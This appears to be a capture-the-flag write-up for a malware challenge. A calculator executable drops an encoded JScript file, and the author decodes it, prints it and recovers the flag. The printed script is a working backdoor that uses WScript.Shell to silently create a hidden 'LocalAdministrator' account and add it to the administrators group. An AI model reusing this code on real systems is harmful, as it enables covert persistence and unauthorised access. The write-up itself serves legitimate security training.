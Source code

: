 +++
title = "Strange Calc"
description = "I got this new calculator app from my friend! But it's really weird, for some reason it needs admin permissions to run??"
authors = ["cstef"]
date = 2024-09-30

[taxonomies]
categories = ["malware"]
+++

## Description

I got this new calculator app from my friend! But it's really weird, for some reason it needs admin permissions to run??

----

We start off with `calc.exe`, which seemingly needs adminstrator permissions to run. After launching it with `wine` a few times, we notice a `.jse` file being created at each run.

The analysis of this file reveals that it's a `JScript Encoded` one. Decrypting with [CyberChef](https://gchq.github.io/CyberChef/#recipe=Microsoft_Script_Decoder()), we get the following:

```js
function a(b) {
  var c = "",
    d = b.split("\n");
  for (var e = 0; e < d.length; e++) {
    var f = d[e].replace(/^\s+|\s+$/g, "");
    if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "")
      continue;
    var g = (f.charCodeAt(0) - 32) & 63;
    for (var h = 1; h < f.length; h += 4) {
      if (h + 3 >= f.length) break;
      var i = (f.charCodeAt(h) - 32) & 63,
        j = (f.charCodeAt(h + 1) - 32) & 63,
        k = (f.charCodeAt(h + 2) - 32) & 63,
        l = (f.charCodeAt(h + 3) - 32) & 63;
      c += String.fromCharCode((i << 2) | (j >> 4));
      if (h + 2 < f.length - 1)
        c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
      if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l);
    }
  }
  return c.substring(0, g);
}
var m =
  "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
var n = a(m);
var o = [
  "net user LocalAdministrator " + n + " /add",
  "net localgroup administrators LocalAdministrator /add",
  "calc.exe",
];
var p = new ActiveXObject("WScript.Shell");
for (var q = 0; q < o.length - 1; q++) {
  p.Run(o[q], 0, false);
}
p.Run(o[2], 1, false);
```

I first tried logging the `a(m)` function, but it just didn't want to print anything. I then decided to refactor a bit the script to see what was going on in the decryption function.

```js
function decodeEncodedString(encoded) {
	let decodedString = "";
	const lines = encoded.split("\n");

	for (let line of lines) {
		line = line.trim();
		if (line.startsWith("begin") || line.startsWith("end") || line === "") continue;

		const numCharsToReturn = (line.charCodeAt(0) - 32) & 63;

		for (let i = 1; i < line.length; i += 4) {
			if (i + 3 >= line.length) break;

			const char1 = (line.charCodeAt(i) - 32) & 63;
			const char2 = (line.charCodeAt(i + 1) - 32) & 63;
			const char3 = (line.charCodeAt(i + 2) - 32) & 63;
			const char4 = (line.charCodeAt(i + 3) - 32) & 63;

			decodedString += String.fromCharCode((char1 << 2) | (char2 >> 4));
			if (i + 2 < line.length - 1) {
				decodedString += String.fromCharCode(((char2 & 15) << 4) | (char3 >> 2));
			}
			if (i + 3 < line.length - 1) {
				decodedString += String.fromCharCode(((char3 & 3) << 6) | char4);
			}
		}
		return decodedString.substring(0, numCharsToReturn);
	}
}

const encodedMessage = "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
const decodedMessage = decodeEncodedString(encodedMessage);
console.log(decodedMessage);
```

For some reason, this version ran fine, even though I did not alter the logic of the function, but we'll take that.

```
flag{9922fb21aaf1757e3fdb28d7890a5d93}
```


## Note 

This could also simply have been solved by looking at the Administrator users on the Windows machine, but I did not have a VM at this moment, so I had to go the "hard" way...